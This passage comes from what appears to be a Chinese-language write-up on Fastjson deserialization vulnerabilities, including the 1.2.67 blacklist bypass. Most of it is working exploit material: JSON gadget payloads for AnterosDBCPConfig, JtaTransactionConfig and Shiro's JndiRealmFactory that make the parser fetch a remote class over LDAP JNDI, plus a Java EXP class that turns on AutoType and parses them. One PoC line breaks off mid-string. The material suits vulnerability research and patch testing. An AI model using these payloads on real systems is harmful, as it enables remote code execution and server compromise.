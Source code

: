 br.com.anteros.dbcp.AnterosDBCPConfig类PoC：

JSON

```
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig类PoC：

JSON

```
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTra
```

### EXP

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
public class EXP_1266 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.shiro.realm.jndi.JndiRealmFactory\", \"jndiNames\":[\"ldap://localhost:1234/ExportObject\"], \"Realms\":[\"\"]}";  
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}";  
//        String poc = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"ldap://localhost:1389/Exploit\"}";  
//        String poc = "{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\"," +  
//                "\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:1389/Exploit\"}}";  
 JSON.parse(poc);  
 }  
}
```

## 0x04 1.2.67反序列化漏洞（黑名单绕过）

### 前提条件

- 开启AutoType；
- Fastjson <= 1.2.67；
- JNDI注入利用所受的JDK版本限制；
- org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup类需要ignite-core、ignite-jta和jta依赖；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core和slf4j-api依赖；
